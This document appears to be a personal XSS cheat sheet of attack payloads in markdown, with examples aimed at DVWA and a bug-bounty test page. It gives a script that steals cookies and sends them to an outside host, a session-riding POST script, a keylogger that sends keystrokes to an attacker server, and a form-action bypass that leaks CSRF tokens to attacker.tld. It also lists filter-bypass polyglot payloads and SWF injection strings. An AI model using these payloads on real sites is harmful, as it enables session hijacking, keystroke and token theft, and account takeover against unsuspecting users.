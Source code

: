 # XSS

## **XSS Cookie Steal**

This works when the url query is DOM loaded in the page

Create a image object in javascript and will be loaded with the output with the document cookie query

```bash
http://localhost:81/DVWA/vulnerabilities/xss_r/?
name=
<script>
new  Image().src="http://192.168.149.128/bogus.php?output="+document.cookie;
</script>
```

**You can catch with a webhook and netcat**

- **Webhook: `webhook.site`**
- **netcat: `nc -lvp 80`**

## Anti-bypass session hijack

I**f the server implements this you can't steal the victim's session**

- When the cookie is set the response request with set-cookie
- When the cookie is HttpOnly

**You can steal the session when the cookie is set on the request of the browser**

**Anti-Anti-bypass the HttpOnly :)**

- If the cookie is HttpOnly you can't steal the cookies but you can execute actions in the account of the user
- If you send a request to the server with the xss script injection the session will be autenticated in the victin browser

**Example:**

```html
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://localhost:81/DVWA/vulnerabilities/xss_s/',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('txtName=xss&mtxMessage=xss&btnSign=Sign+Guestbook');
</script>
```

- This script send a POST request and will post a message in the account of the user

## XSS Keylogger

Include this script in another website and import in the XSS attacked site

**`<script src='attackersite'></script>`**

```jsx
var l = "";   // empty string to concatenate keys onto
document.onkeypress = function (e) {
        l += e.key;
        console.log(l);  //Test line
        var req = new XMLHttpRequest();
        req.open("POST","<server goes here>", true); 	// ADD URL HERE!
        req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        req.send("data=" + l);
}
```

## **Bypass form action with Reflected XSS**

**Fucking CSP implementation**

-Work when the action of the form is specified on the URL query

When the victim clicks on the injected button the form will be sent to the attacker webhook on the href in the button

-The attacker can steal the victim's CRSF token

**Example:**

```bash
http://bugbounty.se/csp_bypass.php?
xss=<input value="CLICK ME FOR POC" type="submit" formaction="" form="subscribe" formmethod="get" /><input type="hidden" name="xss" form="subscribe" value="<link rel='subresource' href='http://attacker.tld/link-subresource'>"/>
```

**The values will be sent to: 'http://attacker.tld/link-subresource'**

**Google:**

**`"<link rel = 'subresource' href = ' http: //attacker.tld '>"`**

**Firefox:**

**`"<a href = ' http: //attacker.tld ' > "`**

(The downside being that the user has to click twice times)

### *Multi-context, filter bypass based polyglot payload #1 (Rsnake XSS Cheat Sheet)

```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```



### Multi-context, filter bypass based polyglot payload #2 (Ashar Javed XSS Research)

```
 
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg"> 

￼￼```

### Multi-context polyglot payload (Mathias Karlsson)

```

" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//

```

###￼ Other XSS Observations

Input Vectors:
- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms

## SWF Parameter XSS

Common Params:
onload, allowedDomain, movieplayer, xmlPath, eventhandler, callback (more on OWASP page)

Common Injection Strings:￼

```

\%22})))}catch(e){alert(document.domain);}//

```

```

"]);}catch(e){}if(!self.a)self.a=!alert(document.domain);//

```


```

"a")(({type:"ready"}));}catch(e){alert(1)}//

```

